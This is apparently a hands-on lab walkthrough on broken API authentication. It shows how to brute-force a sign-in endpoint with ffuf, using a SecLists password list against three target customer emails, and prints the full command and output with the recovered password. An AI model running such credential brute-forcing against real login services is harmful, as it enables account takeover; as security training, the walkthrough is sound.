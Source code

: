 First, we need to obtain the (fail) message that the `/api/v1/authentication/customers/sign-in` endpoint returns when provided with incorrect credentials, which in this case is 'Invalid Credentials':

![API2_2023_Broken_Authentication_Image_8.png](Af8wdtoP0Zm5.png)

Instead of attacking all 107 customers, the admin of `Inlanefreight E-Commerce Marketplace` has provided us with the emails of three high-value targets (which we need to save in a file):

- `[email protected]`
- `[email protected]`
- `[email protected]`

For the password wordlist, we will use [xato-net-10-million-passwords-10000](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-10000.txt) from [SecLists](https://github.com/danielmiessler/SecLists/tree/master).

Because we are fuzzing two parameters at the same time (which are the email and password), we need to use the `-w` flag of `ffuf` and assign the keywords `EMAIL` and `PASS` to the customer emails and passwords wordlists, respectively. Once `ffuf` finishes, we will discover that the password of `[email protected]` is `qwerasdfzxcv`:

```shell
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://94.237.59.63:31874/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.59.63:31874/api/v1/authentication/customers/sign-in
 :: Wordlist         : PASS: /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt
 :: Wordlist         : EMAIL: /home/htb-ac-413848/customerEmails.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"Email": "EMAIL", "Password": "PASS"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid Credentials
________________________________________________

[Status: 200, Size: 393, Words: 1, Lines: 1, Duration: 81ms]
    * EMAIL: [email protected]
    * PASS: qwerasdfzxcv

:: Progress: [30000/30000] :: Job [1/1] :: 1275 req/sec :: Duration: [0:00:24] :: Errors: 0 ::

```
